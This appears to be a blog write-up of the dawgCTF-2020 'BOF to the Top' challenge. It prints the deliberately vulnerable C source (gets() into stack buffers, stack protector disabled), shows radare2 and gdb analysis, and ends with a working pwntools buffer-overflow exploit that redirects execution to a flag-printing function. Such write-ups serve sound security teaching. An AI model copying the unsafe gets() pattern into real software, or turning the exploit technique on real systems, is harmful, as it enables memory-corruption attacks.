 ```yaml
---
layout: post
title: "Bof to the Top"
author: "Trojan187"
categories: ctf
tags: [documentation,sample]
image: ctf.PNG
---
```



## Table of Contents

1. [Introduction](#introduction)
2. [Analysis](#Analysis)
3. [Plan](#Plan)
4. [Solution](#Solution)


##  Introduction

The challenge provides us with the code and a binary.

## dawgCTF-2020: BOF to the Top

Files: `bof.c` & `bof`

`bof.c`
```c

#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

 `bof`
##  Analysis

Running this binary as seen in the code, askes "What's your name?" and takes the user input then again it asks "What song will you be singing?" 

<img src="../../../../../assets/img/blogs/2020-04-19/bin_run.PNG">

Lets take a look at the properties of the binary.

<img src="../../../../../assets/img/blogs/2020-04-19/checksec.PNG">

<img src="../../../../../assets/img/blogs/2020-04-19/file.PNG">

Running radare2 to further analyse the binary.

<img src="../../../../../assets/img/blogs/2020-04-19/r2_aaaa.PNG">

List functions (addr, size, bbs, name)
NOTE* the audition() function location @ `0x08049182`

<img src="../../../../../assets/img/blogs/2020-04-19/r2_afl.PNG">

Print the disassembly of the audition() function.

<img src="../../../../../assets/img/blogs/2020-04-19/r2_pdf_audition.PNG">

Print the disassembly of the get_audition_info() function

<img src="../../../../../assets/img/blogs/2020-04-19/r2_pdf_get_audition_info.PNG">

Ok so a summary of what has been found out so far:
From the code `bof.c` we can see the audition() function will `"/bin/cat flag.txt"` if the values of time == `1200` && room_num == `366`.

##  Plan
The address of the audition() function can be found @ `0x08049182` so if we can find the buffer overflow and control the registers the values needed can be put onto the stack and the function will provide the flag.txt. 

For local testing first I created a `flag.txt` in the same working directory.

Lets get started with gdb:

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_start.PNG">

Before running the binary I created a pattern of 200 characters which will be used to find the segmetaion fault.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_start_pattern_create.PNG">

No segmentation fault was found with the first input.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_no_seg_fault.PNG">

Great, a segmentation fault occured on the 2nd input. With `EIP` being overwritten by `AA8A` (`0x41384141`) @ `112` characters in.

<img src="../../../../../assets/img/blogs/2020-04-19/gdb_seg_fault_EIP.PNG">

##  Solution

Bringing it all together - this is what my final script looked like:

```python

#!/usr/bin/python
from pwn import *

context(arch='x86', os='linux', endian='little', word_size=32)

binary_path = './bof'
e = ELF(binary_path)
p = process(binary_path)

buf = "A" * 112
buf += p32(0x08049182)
buf += "B" * 4
buf += p32(1200)
buf += p32(366)

print(p.recvuntil('?\n'))
p.sendline("Billy")
print(p.recvuntil('?\n'))
p.sendline(buf)
p.interactive()

```

Local test to confirm the script is working and the flag.txt can be read:

<img src="../../../../../assets/img/blogs/2020-04-19/final.PNG">






## END
---
